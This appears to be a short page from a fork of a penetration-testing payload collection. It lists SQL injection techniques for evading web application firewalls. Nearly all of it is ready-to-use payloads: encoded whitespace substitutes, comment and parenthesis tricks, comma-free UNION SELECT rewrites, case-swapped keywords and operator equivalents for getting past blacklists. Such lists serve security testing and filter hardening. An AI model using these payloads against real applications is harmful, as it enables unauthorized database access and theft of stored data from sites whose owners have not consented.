 [Initial bypasses from here](https://github.com/Ne3o1/PayLoadAllTheThings/blob/master/SQL%20injection/README.md#waf-bypass)

### No spaces bypass

No Space (%20) - bypass using whitespace alternatives

```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

No Whitespace - bypass using comments

```sql
?id=1/*comment*/and/**/1=1/**/--
```

No Whitespace - bypass using parenthesis

```sql
?id=(1)and(1)=(1)--
```

### No commas bypass

No Comma - bypass using OFFSET, FROM and JOIN

```
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

### Generic Bypasses

Blacklist using keywords - bypass using uppercase/lowercase

```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

Blacklist using keywords case insensitive - bypass using an equivalent operator

```
AND   -> && -> %26%26
OR    -> || -> %7C%7C
=     -> LIKE,REGEXP,RLIKE, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING --> LIMIT X,1 -> group_concat(CASE(table_schema)When(database())Then(table_name)END) -> group_concat(if(table_schema=database(),table_name,null))
```
